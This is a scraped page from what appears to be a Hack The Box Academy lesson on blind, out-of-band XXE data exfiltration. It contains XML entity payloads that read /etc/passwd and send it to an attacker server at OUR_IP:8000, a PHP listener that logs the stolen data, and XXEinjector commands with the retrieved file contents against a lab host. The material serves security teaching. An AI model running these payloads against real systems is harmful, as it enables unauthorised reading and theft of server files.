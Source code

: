 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/134/section/1207
// Platform Version: V1
// Module ID: 134
// Module Name: Web Attacks
// Module Difficulty: Medium
// Section ID: 1207
// Section Title: Blind Data Exfiltration
// Page Title: Hack The Box - Academy
// Page Number: 16
-->

# Blind Data Exfiltration

**Module Name:** Web Attacks **Page Number:** 16

#### 

#### WEB ATTACKS

# Blind Data Exfiltration

## Out-of-band Data Exfiltration

``` xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

``` php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

``` shell-session
ndefstathiou@htb[/htb]$ vi index.php # here we write the above PHP code
ndefstathiou@htb[/htb]$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_blind_request.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_blind_request.jpg)

``` shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

## Automated OOB Exfiltration

``` shell-session
ndefstathiou@htb[/htb]$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

``` http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

``` shell-session
ndefstathiou@htb[/htb]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

``` shell-session
ndefstathiou@htb[/htb]$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```

# 

# 

#### Questions

####